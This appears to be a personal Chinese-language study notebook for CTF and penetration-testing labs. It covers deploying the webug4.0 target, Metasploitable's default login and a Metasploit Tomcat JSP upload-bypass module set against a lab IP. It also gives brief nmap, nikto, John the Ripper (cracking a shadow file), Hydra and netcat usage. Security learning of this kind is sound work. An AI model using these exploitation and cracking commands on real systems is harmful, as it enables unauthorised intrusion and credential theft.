




# CTF 
[toc]
### 利用私钥登录服务器的方法




[常见的弱口令&密码字典下载网站](https://zhuanlan.zhihu.com/p/635466179)


## [bash语法](https://wangdoc.com/bash/grammar)
https://www.explainshell.com/
https://effective-shell.com/

```
echo命令就不能用 Here 文档作为参数

三个特殊字符除外：美元符号（$）、反引号（`）和反斜杠（\）。这三个字符在双引号之中，依然有特殊含义，会被 Bash 自动扩展。


```

## webug4.0 的部署使用和通过

docker部署
```
docker pull area39/webug
docker run -d -P area39/webug
```

### 通关策略
[WEBUG4.0通关](https://cloud.tencent.com/developer/article/2005900)
[Webug4.0靶场通关](https://xz.aliyun.com/t/12126)




#### ubuntu 虚拟机登录之后无法进入系统仍然停留在登录页面


ctf






ctf安全之隐写术：


## metasploit 的使用 
https://www.anquanke.com/post/id/235631

默认的账号和密码：

masfadmin
msfadmin

Metasploitable和Metasploit是两个不同的概念，它们之间存在以下区别：

Metasploitable：Metasploitable是一个故意设计存在多个漏洞的虚拟机映像，用于进行渗透测试和安全培训。它基于Ubuntu操作系统，并集成了许多常见的漏洞，如弱密码、开放的服务、未修补的软件等。Metasploitable的目的是提供一个实验环境，使渗透测试人员能够实践和学习如何利用不同类型的漏洞。

Metasploit：Metasploit是一个开源的渗透测试框架，用于发现漏洞、利用漏洞和执行各种渗透测试任务。它提供了一套强大的工具和模块，用于自动化渗透测试过程，包括探测目标系统、利用漏洞、提取目标系统中的敏感信息等。Metasploit是一个功能丰富的工具集，可用于测试和评估目标系统的安全性。

[kali工具使用书籍在线](https://github.com/apachecn/apachecn-kali-zh/tree/master?tab=readme-ov-file)


https://github.com/apachecn/apachecn-kali-zh/blob/master/docs/handson-web-pentest-metasploit/12.md
### tomcat jsp (cve_2017)
```
use exploit/multi/http/tomcat_jsp_upload_bypass
show options
set rhosts 192.168.1.111
set verbose true
run

```


## nmap的使用   

nmap -sV host


## sqlmap的使用 
靶机搭建：tech-target-machine.md
order by 3
排序，以你的表的第2列排序，比如你的表的第2列是 first_name 那么就按照 first_name 排序，你可以 try

[探讨不同注入的检测方法和原理](https://m.freebuf.com/articles/web/339118.html)

https://www.jianshu.com/p/078df7a35671

sqlmap的使用方法：

https://cloud.tencent.com/developer/article/2005900

https://www.cnblogs.com/cainiao-chuanqi/p/15100351.html


## jogh等的工具的使用todo 


## Nikto

```
nikto -h 192.158.1.111:20008
```


## Social Engineering Toolkit（SET)


## John the Ripper：密码破解工具，用于破解密码哈希。

John the Ripper主要用于破解密码哈希值，而Hydra专注于暴力破解网络服务的登录凭据。它们的用途和攻击方式略有不同，但都可以用于评估系统的安全性和弱点。


shadow文件（通常是/etc/shadow或/etc/shadow-）是Linux系统中存储用户账户密码哈希值和相关信息的文件。每当用户在Linux系统上创建一个新的账户并设置密码时，相关的密码哈希值将被存储在shadow文件中。

```
john  --wordlist=/usr/share/john/password.lst  shadow0
```


## Hydra：用于暴力破解密码的网络认证破解工具。
爆破 ssh用户密码
https://zhuanlan.zhihu.com/p/397779150


## Aircrack-ng：用于无线网络渗透测试和破解的套件。


## Netcat
nc host port 


# kali书籍角度的所有工具的基本使用！

nessus